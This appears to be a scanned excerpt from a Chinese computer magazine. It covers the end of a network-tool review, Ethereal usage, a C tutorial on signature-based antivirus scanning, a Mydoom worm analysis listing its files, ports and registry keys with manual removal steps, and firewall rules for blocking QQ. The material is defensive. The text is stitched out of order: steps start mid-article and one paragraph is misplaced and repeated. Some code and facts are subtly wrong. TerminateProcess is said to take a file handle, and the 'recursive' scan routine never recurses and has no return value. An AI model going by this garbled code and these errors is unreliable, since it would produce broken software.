只需要简单地选择主机所在的连接类型，一个优化按钮就可以轻松搞定主机与外部连接的速度，不过优化过后不要忘记重新启动，否则你的速度仍然没有得到优化。具体的优化速度会有多大的提高，取决于你所在区域的速度情况和网络的大小、配置情况，这里的简单自动的优化针对不同网络状况所带来的速度改变快慢不一。要真正做到网络的最优运行，需要具备非常深厚的网络知识，包括对硬件、软件的配置使用情况的深入了解，网络管理经验积累等（图 10）。

图 10 UtilKit 加速器

目前 UtilKit Net Tools 还只有英文版本，不过它的使用非常简单，管理功能更加强大。相信大家会运用自如的。

> **编后**
>
> 的确，现在要找一个很好的网络管理工具真的是太难了，而且很多优秀的小工具都是来自国外，很少看见国人编制的。网管之家提倡的就是网络管理的“清晰可见”，小工具往往更能满足大家的需求，而且携带方便。

30 秒后，我们可以按“STOP”停止软件的工作，回到软件的主界面。我们能看到刚才的一段时间里软件对网络进行协议分析得到的结果（图 4）。

- 7. 我们选择某一个协议，就会显示出一些分析出来的参数和结果，可以清楚地看到该协议目前在用于什么操作（图 5）。

### Ethereal 的总结

在网络病毒与黑客共存的时代，一些利用网络协议漏洞从而进行攻击的软件或病毒大行其道。因此，当它们对你的网络进行攻击的时候，如果没有 Ethereal 的网络协议分析，你可能还不知道这些“敌人”攻击的是什么端口，利用的是什么协议，因此也就无法及时和准确地对“敌人”进行防范和采取有效的措施。有了 Ethereal 软件，网络上的一切协议以及它们的运行情况和实际情况就被你一览无余，从而使你的网络更加安全。

socket：孙子兵法云：“知己知彼，百战不殆。”我们在掌握了基本的病毒技术后，就应该开始学习如何杀除病毒了，这样才能做到学以致用。本篇文章将会针对 Win32 平台下的常见病毒的杀毒程序编写思路作简单的探讨，希望能起到抛砖引玉的作用。

文／吟游诗人 [nuke group]

### 剖析 Win32 下杀毒程序编写思路

Windows 平台的一个很大的特点是对 API 的封装比较厉害，很多以前在 DOS 时代必须花费大功夫才能做好的事情，例如界面，现在都能很方便快速地完成了。然而，世间万物都具有双面性——得到了好处，就一定会同时带来某些不太好的东西。便利性所带来的好处是毋庸置疑的，不过所付出的代价就是失去了一定的自由度。在 DOS 年代，程序员可以通过汇编语言完全地控制硬件和操作系统；到了 Windows 时代，能够掌握这些技术的程序员已经不多了，而且不同的 Win32 平台（Win9x、NT 内核）在底层的实现上也有相当大的区别，再加上编程门槛的降低，现在懂得汇编语言的人越来越少，大量的程序员都是在使用 RAD 进行快速开发。因此，以前在 DOS 病毒中加密、变形等技术是家常便饭，而在 Windows 平台下这些技术已是凤毛麟角，百年难得一遇了。

Win32 平台下的病毒技术可以归纳为以下两点：

- 1. 技术含量普遍不高，以木马为主，一般不感染可执行文件，而以修改注册表的文件关联作为发作条件。
- 2. 近年来网络蠕虫的发展很快，病毒不以隐藏自身为主要目的，而以最短时间内大量传播、难以彻底杀除为主。

从杀毒程序的角度来说，这反而是好事，因为病毒本身的技术含量不高，意味着杀灭它们也不需要太费事。下面我们就以一个实例来讲解应该如何编写杀毒程序。

**注：** 病毒例子请见光盘中的 sample.vir.rar。

#### 病毒特征码的提取

目前流行并行之有效的杀毒方法还是以特征码的匹配为主。什么叫病毒的特征码呢？所谓特征码，就是一段独一无二的二进制代码，可以通过它来区分出唯一的一个文件。特征码应该由 3 部分组成：特征码在文件中的偏移、特征码的长度和特征码的具体内容。

好像有点空泛，呵呵……那么应该如何确定特征码并提取呢？让我们来看个例子。

用任意一款 16 进制编辑器打开样本文件 sample.vir，跳转到它的文件偏移 0x6230 处，我们可以看到这里有一个字符串：“杀毒软件一定时查杀毒程序”，如下所示：

```c
data.00406230  C8 F0 D0 C7 C9 B1 B6 BE C8
ED BC FE 2D 2D B6 A8 "杀毒软件一定"
data.00406240  CA B1 B2 E9 C9 B1 B6 BE B3
CC D0 F2 00 00 00 00 "时查杀毒程序"
```

这个字符串，我们就可以把它当作该样本文件的特征码了。这是因为任意给定一个文件，在其文件偏移 0x6230 处存在一个字符串“杀毒软件一定时查杀毒程序”，这样的几率实在是太小了，虽然不能说完全不可能发生重复的现象，但是这个可能性小得完全可以忽略（别忘了，杀毒软件本身也是容许误报的，只是这个几率要尽可能地低，呵呵！……啊，哪来的鸡蛋！）。OK，现在我们就确定了该样本的特征码：

```c
1、偏移为文件偏移 0x6230
2、特征码的长度为 0x1C
3、特征码的具体内容为：0xC8 F0 D0 C7 C9 B1 B6 BE C8 ED BC FE 2D 2D B6 A8 CA B1 B2 E9 C9 B1 B6 BE B3 CC D0 F2
```

#### 匹配特征码

在提取了特征码之后，我们的杀毒程序就可以开始编写了。杀毒首先需要查毒，要先确定哪些文件才是真正的病毒文件，这样才能有的放矢，避免“误杀”。我们来看一个子程序：

```c
bool Scan(const char *szFileName,
// 文件名
          long nOffset,
// 特征码在文件中的偏移量
          int nSignLen,
// 特征码长度
          void *pbySignContent)
// 特征码的具体内容
{
    FILE *fp = NULL;
    int nCmpResult = 0;
    char pbyFileContent[255] = {0};
    bool bReturnResult = false;

    fp = fopen(szFileName, "rb");
    // 以二进制只读方式打开文件
    if (NULL == fp)
    // 如果打开失败，则直接退出并返回失败值
    {
        goto EXIT_FAIL;
    }

    fseek(fp, nOffset, SEEK_SET);
    // 把文件指针指向特征码在文件的偏移量处
    fread(pbyFileContent, nSignLen, 1, fp);
    // 读取长度为特征码长度的内容
    // 进行特征码的匹配
    nCmpResult = memcmp(pbySignContent,
        pbyFileContent, nSignLen);
    // 如果完全匹配，则返回值为 true，否则为默认值 false
    if (0 == nCmpResult)
    {
        bReturnResult = true;
    }

EXIT_FAIL:
    if (fp)
    {
        fclose(fp);
        fp = NULL;
    }

    return bReturnResult;
    // 返回值，如果为 true，则匹配成功，否则为 false。
}
```

这段代码我已经加上了必要的注释，大家很容易看明白。它接受 4 个传入的参数，分别是：

- szFileName：文件名
- nOffset：特征码在文件中的偏移量
- nSignLen：特征码的长度
- pbySignContent：特征码的具体内容

怎么样，是不是跟前面所说的特征码格式一一对应呢？

在子程序中，首先打开文件，然后用 fseek() 指定指针到 nOffset 所规定的位置上，然后读取 nSignLen 个字节。这样，我们就得到了一段跟待匹配的特征码长度一样的二进制数据。接下来我们要进行匹配工作。有一个 ANSI C 的函数是：

```c
int memcmp(const void *buf1, const void *buf2, size_t count);
```

它的第 1 和第 2 个参数都是接受一段数据流，第 3 个参数是表示比较的长度。在比较结束后，返回值如为 0，则表示两个数据流的内容是一致的；如为非 0，则表示它们是不一样的。

因此，我们的 Scan() 子程序中就利用这个 memcmp() 函数进行特征码的匹配，如返回为 0，则表示匹配成功，该文件就是病毒文件。下面是调用这段子程序的一个示例：

```c
unsigned char szSignContent[] = {0xC8, 0xF0,
0xD0, 0xC7, 0xC9, 0xB1, 0xB6, 0xBE, 0xC8,
0xED, 0xBC, 0xFE, 0x2D, 0x2D, 0xB6, 0xA8,
0xCA, 0xB1, 0xB2, 0xE9, 0xC9, 0xB1, 0xB6,
0xBE, 0xB3, 0xCC, 0xD0, 0xF2};

Scan("c:\\sample.vir",
    0x6230,
    0x1C,
    szSignContent);
```

最后补充一下：Scan() 子程序中使用的都是 ANSI C 标准函数，而没有使用 Windows 的文件 API，这是为了保证移植性，例如移植代码到 Linux 平台下。

#### 清除病毒

在匹配了特征码后，“元凶”就已经确定了，我们可以执行杀毒的工作。由于在 Windows 平台下，大多数的木马病毒都不会感染其他文件，它们一般只会在注册表的文件关联、启动项等地方留下发作的“唤醒”条件，因此一般只需要做以下的步骤就可以了：终止病毒进程、删除病毒体和恢复注册表的正常键值。

### 1. 终止病毒进程

在这里，我们就不得不使用 Windows 平台提供的 API 了，如下代码所示：

```c
BOOL TerminateProcess(
    HANDLE hProcess,   // handle to the process
    UINT uExitCode     // exit code for the process
);
```

第 1 个参数是一个文件的句柄，可以先通过 CreateFile() 得到，然后传递给它。第 2 个参数是给出结束进程的结束码，一般我们只要给 NULL 就行了。

### 2. 删除病毒体

这里也可以通过 Windows 的 API 实现：

```c
BOOL DeleteFile(
    LPCTSTR lpFileName    // file name
);
```

只需简单地传递文件名给它，就能删除文件了。需要注意的是：必须先终止了进程，然后才能删除该病毒文件；而且对于一般的木马病毒，只需要删除它就可以了——因为它并没有对别的文件进行感染。

### 3. 恢复注册表的正常键值

我们可以通过一系列的 Windows 注册表 API 实现，比如 RegOpenKeyEx()、RegReplaceKey() 和 RegSetValueEx() 等。具体的实现方法需要先分析病毒体到底做了什么，例如修改了什么文件关联，在什么地方添加了键值，然后逆其道而行之，把它做过的“坏事”恢复成正常的值即可。

#### 文件遍历

到目前为止，我们所讨论的都是针对单个文件的查、杀毒，但是在实际的使用中，我们往往需要对整个磁盘的多个目录进行递归杀毒，这就必须实现文件遍历的功能。下面给出一段子程序，大家可以参考。

```c
BOOL RecurionScan(const char *szPath)
{
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind;
    hFind = FindFirstFile(szPath, &FindFileData);
    if (INVALID_HANDLE_VALUE == hFind)
    {
        FindClose(hFind);
        return FALSE;
    }
    do
    {
        if (
            0 == strcmp(FindFileData.cFileName, ".") ||
            0 == strcmp(FindFileData.cFileName, "..")
        )
        {
            continue;
        }
        // Place Scan() here.
    }
    while (FindNextFile(hFind, &FindFileData));
    FindClose(hFind);
}
```

注意：为了提高效率，本来是应该使用多线程进行查、杀毒的，但是由于多线程实现起来比较复杂，在同步上有一定难度，在此不再详述，读者可以自行参考有关资料。

关于 Win32 平台下的杀毒程序编写的简单思路就分析到此了，希望感兴趣的读者朋友们能够在此基础上触类旁通，开发出自己的功能更加强大的杀毒软件。

### Mydoom：揭开病毒的神秘面纱

文／图 273.15℃

Socket：在 2004 年初，大家是不是有这样的经历：Mydoom 病毒爆发期间，自己的每个邮箱几乎都收到了上百封垃圾邮件？据说它在 36 小时内就发送了 1 亿封垃圾邮件，而且微软为此还悬赏 25 万美金来缉拿制作这个病毒的作者！Mydoom 病毒究竟有什么过人之处，有如此大的能量呢？还是让我们一起看下文作者为我们做的分析报告，揭开它的神秘面纱！

#### 发现 Mydoom 病毒

Mydoom 病毒感染现象是很明显的，首先感染该病毒后会在系统路径的 %System% 下产生一个动态连接库文件 shimgapi.dll 和一个大小为 22K 的可执行文件 taskmon.exe，而且在 %temp% 路径下会产生一个随机文件 message（图 2）。

在 RPC 蠕虫风暴渐渐消退的时候，又一只蠕虫 Mydoom 肆虐全球互联网。它会利用一个搜索到的邮件地址作为发件人给一个并不存在的收信人发信，而收信人的邮件服务器找不到收信人的地址，就会将该邮件退给发件人，发件人的邮件地址正好是病毒真正要传播的对象。用户在收到这样的退信时，可能会打开这封退信而感染该病毒。使用这样的传播方式，病毒就更好地隐藏了自己，也达到了更广的传播目的。所以，当大家收到诸如以下形式的退信邮件时（图 1），千万不要打开附件。



该病毒的可怕之处在于 shimgapi.dll 这个文件，它会在系统中创建一个代理服务器，并打开本地 3127～3198 范围内的 TCP 端口监听。而连接到该端口获得的 shell 都是 system 权限的，可以上传执行任意文件。查看注册表还会发现，增加了如下键值，以使 taskmon.exe 随系统自启动。

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\TaskMon=%System%\taskmon.exe

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\TaskMon=%System%\taskmon.exe
```

同时，Mydoom 还会添加下面的键值：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\Version

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\Version
```

而且如果你装有“金山网镖”之类防火墙的话，会有如图 3 所示的警告。



如果在你的电脑上发现了以上任何一种症状的话，那么就得小心了，赶紧下载免费的 Mydoom 病毒专杀工具。如果你没有专杀工具或者其他原因而无法使用专杀工具的话，那么可以参考下面的方法来手工清除该病毒。

#### 手工清除 Mydoom 病毒

首先我们需要终止恶意程序。打开 Windows 任务管理器，会发现图 4 所示的 taskmon.exe 进程，结束该进程，刷新一下进程管理器确定该进程已经被终止。如果是在 Windows 98/Me 等系统下，进程管理器未能显示该恶意进程的话，可以借助第三方进程查看工具来终止该进程。



然后打开注册表编辑器，找到上面所述的 Mydoom 病毒添加的注册表项，将其删除。删除完毕后，重新启动系统，到 %system% 和 %temp% 系统文件夹下将 shimgapi.dll、taskmon.exe 以及 message 这几个文件删除，就成功地清除了 Mydoom 病毒。

> Mydoom 病毒之所以传播速度极快、破坏力大的原因，不仅在于它的传播方式的特殊性（利用邮件服务器的退信功能来发送带毒邮件）；而是被感染后，系统将被赤裸裸地暴露于外界，无任何抵抗能力；其破坏力与 RPC 相比，有过之而无不及。要是自己不幸中毒了的话，记得按照上面介绍的方法进行清除。

刘流：如今是个性张扬的年代，QQ 风靡网络后，五年来逐渐成为人们网上沟通、表现自我的一种方便的工具，它的存在更好地演绎着这种个性张扬的精神。自成一派、表现自我因而成为了新新 Q 人类的本色，但很多老板并不这么想。因为有很多朋友在工作时间使用 QQ，对工作产生了一定的副作用，于是也就有了这样的话题：如何禁止员工使用 QQ？本文就是讨论如何在 ISA Server 上禁止使用 QQ 的话题，相信会对有此难题的广大网管员有所帮助。

## 巧设防火墙 禁止使用 QQ

QQ 给大家带来了方便与快乐，但如果在工作时间使用 QQ，就不可避免地会对工作产生副作用，所以很多公司都要求在防火墙上进行设置以禁止员工上 QQ，在这里就来看看怎样在 ISA 防火墙上进行配置以禁止内网用户使用 QQ（本文主要以 ISA Server 2000 为例，但也会提到最新的 ISA Server 2004 的一些新增功能）。

直接通讯通常是 UDP 4000 与 UDP 4000 端口通信，如果有多个 QQ，端口号依次增加，比如 UDP 4001、4002 等。对于要禁止用户使用 QQ，其实我们只关心客户端登录服务器的通讯，因为只要禁止了客户端登录，用户就无法使用 QQ 了，所以这里要更多地来看 QQ 的登录方式。QQ 有以下几种登录方式（QQ2000c 1230 版以上，这里以最新的 QQ2003III build 0117 为例）。

在谈具体配置过程之前，我们先来看一下 QQ 的通讯原理（图 1）。QQ 通讯主要表现在两个方面，一个是客户端与服务器之间的通讯，比如 QQ 客户端发送登录信息、个人配置信息等到服务器，而服务器返回在线好友、广告、在线好友的 IP 地址及端口等信息。另一种通讯就是发生在客户端与客户端之间的，比如正常登录后，客户端之间聊天就不再通过服务器转发了，而是客户端之间直接通讯。



图 1

- 最常用的 UDP 协议登录，客户端使用 UDP 4000 端口，而服务器则使用 UDP 8000 端口。
- TCP 方式登录，服务器使用 TCP 80 端口（也用 TCP 443 端口），也就是大多数 Web 服务器使用的端口，现在这种服务器有两个，如图 2 所示。
- 会员专用的 VIP 登录，服务器 IP 为 218.17.209.42，端口是 443。
- Socks5 代理登录，通过 Socks5 代理服务器进行登录。
- HTTP 代理登录，通过 HTTP 代理服务器进行登录。

知道了 QQ 的登录方式，要禁用 QQ 就好着手了。从上面可以看出，QQ 登录时使用了从网络层到应用层的协议进行登录，所以要有效禁止 QQ 也应建立一个立体的策略。下面就根据上面不同的登录方式来设置不同的禁止策略。

#### 禁止 UDP 方式登录

对于 ISA Server 2000 来说，一个外出访问必须要没有一个协议规则拒绝请求，并且要有明确的协议规则允许请求才能被 ISA 放行，所以对于这种登录方式，首先需要规范 ISA Server 2000 本身的策略建立原则，即应该只为需要的协议创建允许规则，而不应该创建一种允许全部协议外出的规则。由于拒绝策略将被优先应用，为了提高效率，我们可以创建一条拒绝策略，这里也就是创建一条拒绝对外部 UDP 8000 端口进行访问的协议规则就行了，用不着再去禁用服务器 IP。由于 ISA Server 2000 中没有预定义 UDP 8000 这样一条协议，所以需要先创建一条协议。要定义新的协议请右击 Policy Elements 下的 Protocol Definitions，选择“新建/Definition”，协议各项参数如下：

```
Name: DenyUDP8000
Port number: 8000
Protocol type: UDP
Direction: Send Receive
```

完成后再右击 Access Policy 下的 Protocol Rule，选择“新建/Rule”，参数如下：

```
Name: DenyQQ8000
Rule action: Deny
Protocols selected: Protocols/Deny UDP8000
Schedule: Always
Client type: Any request
```

这样就建立了一条禁止客户端使用 UDP 方式进行登录的协议规则。

#### 禁用 TCP 方式登录

由于这种登录方式使用的是我们平常上网访问的 TCP 80 或 TCP 443 端口，所以不能再像上面一样采取禁用端口的方法，但由于这种登录只有两台服务器，所以可以采取禁止访问相应服务器的方式来禁用此种方式登录。同理，会员专用的 VIP 登录也可以采用这种方法来禁用，在 ISA Server 2000 中的操作步骤如下：

##### 1．创建目标地址集

右击“Policy Elements/Destination Sets”，选择“新建/Sets”，增加一个目标地址集（图 2 中列出的 IP 和会员登录所用的服务器 IP），如图 3 所示。

| DNS 名 | IP 地址 |
|---|---|
| tcpconn.tencent.com | 218.17.209.23 |
| tcpconn3.tencent.com | 218.17.209.23 |
| tcpconn2.tencent.com | 218.18.95.153 |
| tcpconn4.tencent.com | 218.18.95.153 |



##### 2．创建站点和内容规则

- 右击“Access Policy/Site and Content Rules”，选择“新建/Rule”，各项参数如下：
- Name: DQQlogin
- Rule action: Deny
- Rule configuration: Deny access based on destination
- Destination sets: Specified destination set/（第 1 步所建的目标地址集名）

另外，还可以创建一个目标地址集，参数为图 2 中的那几个 DNS 主机（FQDN），并参照上面第 2 步为它创建一条拒绝类的站点和内容规则。

数据包有一个很明显的特征就是通常都会使用 connect 方法，这样只要禁止使用 connect 方法的 HTTP 协议数据包通过就行了。要检查 HTTP 数据包，此时就需要应用程序过滤器来工作了，但在 ISA Server 2000 中，没有内置的 Web Filter，也就没有能够检查 HTTP 报头的 Web Filter 了，不过所幸的是在 ISA Server 2004 中已经有了相应的 Web Filter，你可以配置 Block 掉使用 connect 方法的 HTTP 数据包，方法是：

#### 禁用通过 Socks5 代理登录

对于 Socks5 代理来说，可以分两种情况来讨论。一是 Socks5 代理服务器使用常用的 1080（或 1813、3128）端口。对于这种情况，我们可以参照禁用 UDP 8000 端口的方法来禁用 UDP 1080、1813 和 3128 端口。二是 Socks5 代理服务器不是使用的 1080、1813 或 3128 端口。对于这种情况是较难控制的，但如果 ISA Server 本身策略原则得当，即只为需要的协议创建了允许规则（比如只创建了允许访问外部的 53 和 80 端口），常规方式下 QQ 仍然不能登录，除非它使用开放的端口与外部通信（比如 53 或 80 等），下面将专门讲这种情况。

#### 禁用 HTTP 代理登录

这是很多 ISA Server 2000 管理员碰到的一个难题，因为 ISA Server 2000 本身就有一个 Web 代理服务，客户端可以把 QQ 的 HTTP 代理服务器设为 ISA Server 2000 的地址，端口设为 8080，这样就很容易地用上 QQ 了。但是只要你按上面所述禁用 TCP 登录的方式进行了操作，那么 QQ 是无法通过这个 HTTP 代理的，因为这种方式的登录最终也是在图 2 中的服务器上进行登录。当 QQ 把数据包发送到 ISA Server 2000 代理服务时，代理服务器会检查到目标地址是图 2 中的服务器，所以访问会被禁止。但如果 QQ 不通过 ISA Server 2000 的代理而使用外面的代理情况会怎么样呢？这就与你建立的协议规则有关了，在这里仍然强调我们只应该为需要使用的协议创建规则，这样那些没有允许规则的协议就不能外出，比如通常我们不会创建允许 TCP 8080 端口开放的协议规则，这样 QQ 就不能使用那些端口为 8080 的 HTTP 代理服务器，但对 QQ 使用端口为 80 的代理服务器就不好管了，毕竟我们不可能不允许对 80 端口的访问。难道对于这种情况就没法管了？非也，因为使用 HTTP 代理服务的数据包有一个很明显的特征就是通常都会使用 connect 方法，这样只要禁止使用 connect 方法的 HTTP 协议数据包通过就行了。

